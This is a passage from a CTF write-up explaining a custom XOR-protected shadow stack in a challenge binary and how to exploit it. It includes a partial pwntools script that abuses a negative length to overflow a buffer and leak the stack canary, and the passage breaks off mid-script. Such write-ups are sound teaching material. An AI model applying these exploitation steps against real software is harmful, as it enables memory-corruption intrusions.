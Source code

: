From the previous functions we saw that `call` gets called with the first argument a potential function to be executed followed by the typical arguments of that function and the assembly shows us just that. So the `push` function is called twice with arguments the saved return pointer and saved base pointer of `call`. Next, the function pointer is loaded in EAX to be jumped to as we can see in the last instruction. But whats that `ret_stub` before that ? And what seems to be, it's replacing the function pointer from arg 0 ? Yes, but no :P, the `LEAVE` instruction will basically do `MOV ESP, EBP ; POP EBP` which will restore the stack frame, meaning ESP will point to the return pointer. BUT... there's `add esp, 4` after the `leave`, this is where ESP will no longer point to the saved return pointer but it will point to the first argument which is now a pointer to the `ret_stub` function. 

![call]({{site.url}}/assets/Screen Shot 2016-09-05 at 2.28.48 AM.png)

The `push` function is also very interesting... Here we see the `stack_buf` global variable as a pointer to the `shadow stack`. First the memory's permissions are changed to `rw` then the argument (which if you remember from the `call` function is always saved return pointer and saved base pointer) is processed through the `enc_dec` function which just XORs it with a futex stored at `gs:0x18` and then moved to the `shadow stack`. After that the memory's permissions are changed back to 0.

![push]({{site.url}}/assets/Screen Shot 2016-09-05 at 2.54.49 AM.png)

The `ret` function is absolutely the same as the `push` function, it just instead of storing data it pops data from the `shadow stack` restores the saved ebp and jumps to the poped saved return pointer.

Pretty cool implementation right ? So how are we going to pwn it ?

## Exploit

Before jumping directly to the exploit, let's first see what we can control. We leaked the canary, a saved base pointer providing us with relative offsets to anything on the stack, we control the counter for the for loop and the counter_limit, we also control the `name*`, `name_length` and `msg_len` for `getnline` function. So this means we can write anywhere anything.

I didn't show u the function pointers passed to `call` but they are basically pointers from the GOT with FULL RELRO, so GOT overwrite is not an option. However, if we think for a second, the saved return pointer is replaced with the `ret` function BEFORE we jump to a function in libc. And when the libc function we called to returns it will pop this value from the stack ! So what if we pre-calculate the address of the saved return pointer for `read` from `getnline` ? This means read will be overwriting it's own saved return address and returning to whatever address we place there. 

Here is the full exploit code

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def exploit(r):
    r.recvuntil('Input name : ')
    r.sendline("AAAA")
    r.recvuntil('Message length : ')
    r.sendline('-2')                    # signed checked
    r.recvuntil('Input message : ')

    payload = 'A' * 0x21                # overwrite canary null-byte

    r.send(payload)
    r.recvuntil('<AAAA> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
    canary = u32("\x00" + r.recv(3))
    log.info("Canary: " + hex(canary))

    r.recvuntil('Change name? (y/n) : ')
    r.sendline('n')
    r.recvuntil('Message length : ')
    r.sendline('-2')
    r.recvuntil('Input message : ')
